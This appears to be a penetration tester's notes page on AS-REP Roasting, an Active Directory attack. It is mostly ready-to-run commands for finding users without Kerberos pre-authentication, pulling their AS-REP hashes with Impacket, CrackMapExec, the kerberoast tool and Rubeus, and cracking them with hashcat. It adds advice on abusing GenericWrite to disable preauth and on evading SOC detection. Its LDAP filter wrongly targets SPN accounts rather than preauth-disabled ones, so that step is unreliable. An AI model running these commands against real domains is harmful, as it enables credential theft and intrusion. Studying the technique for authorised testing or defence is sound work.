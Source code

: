 alias:: ASREPRoast
public:: true

- In case the [Kerberos Pre-Authentication](((655b158a-a666-41e0-8076-e59942a7bb20))) is not enabled for one or more domain users, an [AS-REQ](((655b1c01-e1e1-4be0-b245-ff8c9482df38))) can be forged without knowing their password (or the hash) and sent to KDC on their behalf.
- Once the [AS-REP](((655b1795-7a37-4e7f-b428-6c9a34ab2cbf))) is returned from the domain controller, [the encrypted part of the response](1. ) can be brute-forced offline to retrieve the user password.
- #+BEGIN_NOTE
  Please note that in order to execute most of the following commands you need be able to query the DC. Hence, you need access to a valid domain user.
  #+END_NOTE
	- Retrieve the list of users with [Kerberos Pre-Authentication disabled](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainUser/).
		- From Windows
			- With PowerView
			  id:: 655cf631-e9b4-4a1f-99d0-45c801c69f8c
			  ```powershell
			  Get-DomainUser -KerberosPreuthNotRequired -verbose
			  ```
			  ```powershell
			  # Users with Pre-Authentication disabled AND without expired passwords
			  Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED
			  ```
			- With LDAP
			  ```powershell
			  ldapsearch -LLL -x -H ldap://dc01.hpbank.local -D "da@hpbank.local" -w 'P@ssw0rd' -b dc=hpbank,dc=local "(&(&(servicePrincipalName=*)(UserAccountControl:1.2.840.113556.1.4.803:=512))(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" sAMAccountName userPrincipalName memberOf
			  ```
			- With pure Powershell
			  ```powershell
			  $root = [ADSI]"LDAP://dc=hpbank,dc=local"
			  $search = new-Object System.DirectoryServices.DirectorySearcher($root)
			  $search.Filter ="(&(objectCategory=User)(userAccountControl:1.2.840.113556.1.4.803:=4194304))"
			  $search.FindAll()
			  ```
			- With Active Directory module
			  ```powershell
			  Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol | Format-Table name
			  ```
	- From Linux via [[Impacket GetNPUsers]]
		- id:: 5971e61f-2ed6-4dd2-91a6-1752dfb51de7
		  ```bash
		  impacket-GetNPUsers -dc-ip 192.168.50.70 corp.com/pete
		  ```
- id:: 655cf4a9-95ae-4eb8-be69-cd1fb9b251c6
  #+BEGIN_TIP
  If you have **GenericWrite** or **GenericAll** rights over a target user, you can maliciously [modify their userAccountControl](https://learn.microsoft.com/en-US/troubleshoot/windows-server/identity/useraccountcontrol-manipulate-account-properties) to [not require preauth](((655b158a-a666-41e0-8076-e59942a7bb20))), use [[AS-REP Roasting]] , and then reset the value.
  #+END_TIP
- Retrieve ASREPRoast hashes
	- From Linux
		- With [[Impacket GetNPUsers]]
			- id:: 655cf20b-a6e7-4003-8049-8d922905d0b1
			  ```bash
			  impacket-GetNPUsers -dc-ip 192.168.50.70 -request -outputfile hashes.asreproast corp.com/pete
			  ```
				- `-request` - is specified to request the [TGT](((655a4269-21dc-4947-a21d-5c89e404b561))).
				- `corp.com/pete` - is the domain user from where we can query the DC. We'll need to input his password.
				- `-outputfile hashes.asreproast` - file to save captured hashes.
					- Default output is for [[Hashcat]]. The generate [[JTR]] compatible hash use `--format john`
			- With [[CrackMapExec]]
			  id:: 65673473-d9f8-42e7-a1ba-c234679b312d
				- ```bash
				  crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast hashes.asreproast --KdcHost $KeyDistributionCenter
				  ```
			- With [Kerberoast]([[Kerberoast tool]])
			  id:: 6567356f-171b-4626-a6ed-f9551a966b85
				- This tool asks for aes 128/256 encrypted tickets. Making the crack process way harder, but also decreasing the detection risk.
				- ```bash
				  python3 -m kerberoast asreproast -r hpbank.local -u da 192.168.0.122 -e 18
				  ```
				- To crack it with [[JTR]] it's necessary to change the format for the output to `$krb5asrep$18$<SALT>$<FIRST_BYTES>$<LAST_12_BYTES>`
	- From Windows
		- With [[Rubeus]]
			- id:: 655cf178-e37d-4ab0-9e2b-e16c2ff7c94f
			  ```powershell
			  .\Rubeus.exe asreproast /format:hashcat /outfile:C:\Temp\hashes.asreproast [/user:username]
			  ```
				- By default only users that have the property [*Do not require Kerberos preauthentication*](((655b158a-a666-41e0-8076-e59942a7bb20))) set are processed. For the full `asreproast` command usage [check here](https://github.com/GhostPack/Rubeus#asreproast).
				- `/format:hashcat` - Generate [[Hashcat]] compatible hash, the default output is for [[JTR]].
				- `/outfile:` - file to save captured hashes.
	- #+BEGIN_CAUTION
	  All tools, but [[Kerberoast tool]] ask for RC4 encrypted tickets that can be (and probably will be) detected by SOC ([Sigma Rule](https://github.com/SigmaHQ/sigma/blob/master/rules/windows/builtin/security/win_security_susp_rc4_kerberos.yml)).
	  #+END_CAUTION
- Crack **Kerberos 5 AS-REP** hashes via [[Hashcat]] with the [`-m 18200`](https://hashcat.net/wiki/doku.php?id=example_hashes) option.
  id:: 655cd6cd-968a-4756-b77f-35c47110ad33
  ```bash
  sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt \
  	-r /usr/share/hashcat/rules/best64.rule --force
  ```
	- `-m 18200` - specifies the correct mode
	- `hashes.asreproast` - is the file with the hashes, as it was output by `impacket-GetNPUsers` or `Rubeus`
	- `rockyou.txt` - the wordlist we want to use
	- `best64.rule` - the rules to apply to the wordlist
	- `--force` - to run `hashcat` in Kali